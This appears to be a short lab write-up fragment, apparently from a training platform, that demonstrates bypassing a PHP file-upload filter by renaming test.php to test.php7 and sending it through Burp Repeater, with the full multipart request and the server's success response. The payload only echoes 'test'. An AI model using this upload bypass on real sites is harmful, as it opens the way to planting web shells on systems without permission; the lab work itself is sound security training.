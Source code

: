 `curl https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com/uploads/test.php`:
```php
<?php echo "test" ?>
```

`mv ./test.php ./test.php7`

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /index.php HTTP/2
Host: rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------119337070515117360592942719626
Content-Length: 264
Origin: https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com
Referer: https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

-----------------------------119337070515117360592942719626
Content-Disposition: form-data; name="fileToUpload"; filename="test.php7"📌
Content-Type: application/octet-stream📌

<?php echo "test" ?>

-----------------------------119337070515117360592942719626--
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/html
Date: Thu, 28 Nov 2024 14:22:46 GMT
Server: Apache
Vary: Accept-Encoding
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 4062


<!DOCTYPE html>
<html lang="en">

[...]

	<div class="media-body">
	     <a href='uploads/test.jpg'>File Uploaded Succesfully</a>📌                   </div>

[...]
```
